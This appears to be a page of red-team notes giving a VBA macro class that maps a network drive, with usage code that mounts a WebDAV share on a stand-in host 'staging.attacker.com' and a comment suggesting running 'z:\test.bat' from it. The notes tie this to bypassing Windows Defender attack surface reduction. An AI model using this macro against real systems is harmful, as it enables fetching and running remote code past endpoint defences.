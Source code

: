 			Option Explicit

			Private oMappedDrive As Scripting.Drive
			Private oFSO As New Scripting.FileSystemObject
			Private oNetwork As New WshNetwork

			Private Sub Class_Terminate()
			  UnmapDrive
			End Sub

			Public Function MapDrive(NetworkPath As String) As Scripting.Folder
			  Dim DriveLetter As String, i As Integer

			  UnmapDrive

			  For i = Asc("Z") To Asc("A") Step -1
			    DriveLetter = Chr(i)
			    If Not oFSO.DriveExists(DriveLetter) Then
			      oNetwork.MapNetworkDrive DriveLetter & ":", NetworkPath
			      Set oMappedDrive = oFSO.GetDrive(DriveLetter)
			      Set MapDrive = oMappedDrive.RootFolder
			      Exit For
			    End If
			  Next i
			End Function

			Private Sub UnmapDrive()
			  If Not oMappedDrive Is Nothing Then
			    If oMappedDrive.IsReady Then
			      oNetwork.RemoveNetworkDrive oMappedDrive.DriveLetter & ":"
			    End If
			    Set oMappedDrive = Nothing
			  End If
			End Sub
	1. Use the class like this:

			Sub GetBlogPost()
			  Dim f As File
			  Dim dm As New DriveMapper
			  Dim sharepointFolder As Scripting.Folder

			  Set sharepointFolder = dm.MapDrive("\\staging.attacker.com\webdav\folder")

			  Debug.Print sharepointFolder.Path
			  Debug.Print sharepointFolder.Path & "blogpost.xls"
			  
			  'Application.Wait (Now + TimeValue("0:00:5"))
			  ' do evil stuff like: Shell "z:\test.bat"
			  For Each f In sharepointFolder.Files
			    Debug.Print f.Name
			  Next f
			End Sub

* Execute binaries
	* References
		* [https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)
